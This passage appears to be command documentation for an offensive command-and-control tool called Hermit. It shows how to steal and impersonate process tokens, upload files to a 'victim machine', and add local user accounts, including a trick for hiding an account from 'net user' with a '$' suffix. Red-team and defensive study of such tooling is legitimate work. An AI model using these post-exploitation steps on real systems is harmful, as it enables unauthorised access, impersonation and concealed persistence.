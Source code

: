 ## `token`

Manages token.

### `token revert`

Reverts back to the original process token.

### `token steal`

Steal token from a specified process and impersonate.  
Please specify either `--process` or `--login` flag.

```sh
# --process: Execute process with stolen token.
Hermit [agent-abcd] > token steal --pid 1234 --process notepad.exe

# --login: Impersonate logged on.
Hermit [agent-abcd] > token steal --pid 1234 --login
```

## `upload`

Upload a file to victim machine.

```sh
Hermit [agent-abcd] > upload /tmp/example.txt C:/Users/John/Desktop/example.txt
```

## `user`

Manages users.

### `user add`

Add new user account.

```sh
Hermit [agent-abcd] > user add -u "John" -p "Password@123"
```

To hide a new user from `net user` command, add prefix `$` to the username as below:

```sh
Hermit [agent-abcd] > user add -u "John$" -p "Password@123"
```

### `user ls`, `users`

Lists local users.

### `user rm`

Delete a specified user.
